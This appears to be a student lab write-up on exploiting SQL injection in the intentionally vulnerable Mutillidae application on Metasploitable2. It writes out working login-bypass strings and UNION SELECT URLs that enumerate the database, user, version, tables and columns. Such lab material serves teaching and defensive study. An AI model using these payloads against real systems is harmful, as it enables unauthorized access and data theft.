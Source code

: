 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/3242ef5b-2cad-420a-b6d7-e5882ce17ebd)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/1a70bb63-70f4-4fe8-aa15-221adb647146)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/7f3d61d4-ed84-475d-a627-995dc8803656)

Click on the menu Login/Register and register for an account
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/9e405eee-bba2-44bf-a987-c71239fb56a4)

Click on the link “Please register here”
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/5e3f84b8-6032-4a4d-9abf-7d40108a7541)

Click on “Create Account” to display the following page:
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/e9624bf1-5d5b-4425-9b3c-d7319af6753b)

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/1b7f9538-7f82-482c-b0be-adeb192be3a6)

Click “Login”. The logged in page will show as below:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/9e8e7d9f-d714-4756-b406-511712094804)

##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/ffc44ed6-1182-48dd-863c-2ffa29704a98)

Click the login button and you will see it enter into the administrator page.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/44392be5-efff-43ea-903e-5d362da9a182)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![image](https://github.com/user-attachments/assets/b168248e-9390-4b5c-83ce-d379ae78e4b2)


![image](https://github.com/user-attachments/assets/50745370-3dbb-42a9-8b4c-f780995a4e91)


![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/592b4943-2ccc-4440-8a06-8402430e512f)


![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/a8f98ae2-70db-4b96-a91f-cae6e429714f)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/de07fdd6-f197-4ecd-8bc9-71d39b0a5513)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/0b172a00-aebd-4e78-966a-cdcc2d25c424)

After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/377fe020-ebbd-4279-aa35-68b29d5010b2)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/30bbc5e6-0efc-401a-a8b0-0ca657d7b7f3)

As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/11437ebe-c4a0-4690-8503-58e0b5f67947)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/1cad5825-7f25-4d5d-85d6-8158046486a1)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/24567fd9-1f56-4700-a905-37f9b51e3cf9)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/742af93e-720a-42e2-93bc-2eb7ee7bf10a)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/0d3223d2-9931-44a2-bea6-ac7ebb9a90ff)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/9e7baea6-b543-4781-b0b5-b6186030e2c6)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/12b6f8b0-aec2-4ecd-a99f-68f92f011eea)

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
